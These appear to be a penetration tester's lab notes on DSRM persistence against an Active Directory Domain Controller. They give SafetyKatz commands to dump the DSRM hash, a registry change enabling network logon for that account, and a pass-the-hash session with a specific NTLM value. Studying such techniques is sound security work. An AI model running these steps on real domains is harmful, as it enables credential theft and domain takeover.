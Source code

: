 Used when the directory services fail to start on the Domain Controller. You then have to boot it into safe mode.

The DRSM Administrator credentials must be used and this account is present on **every Domain Controller**. 

![[Pasted image 20250510225743.png]]

> [!NOTE] **NOTE**
> DSRM password (SafeModePassword) is required when a server is promoted to Domain Controller and it is **rarely** changed. 
> 
> Bro that originally set the DRSM password is probably dead or retired lol

After altering the configuration on the DC, it is possible to pass the
NTLM hash of this user to access the DC.

Dump DSRM password
```powershell
SafetyKatz.exe "token::elevate" "lsadump::evasive-sam"
```

Compare the Administrator hash with the Administrator hash of below
command. The first one is the DSRM local Administrator.
```powershell
SafetyKatz.exe "lsadump::lsa /patch"
```

Since its the local administrator of the DC, we can pass the hash to
authenticate but, the Logon Behavior for the DSRM account needs to be changed
before we can use its hash
```powershell
winrs -r:dcorp-dc cmd

reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
```

Pass-the-Hash with DRSM Administrator account with mimikatz
```powershell
SafetyKatz.exe "sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"

Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1

Enter-PSSession -ComputerName 172.16.2.1 -Authentication
NegotiateWithImplicitCredential
```
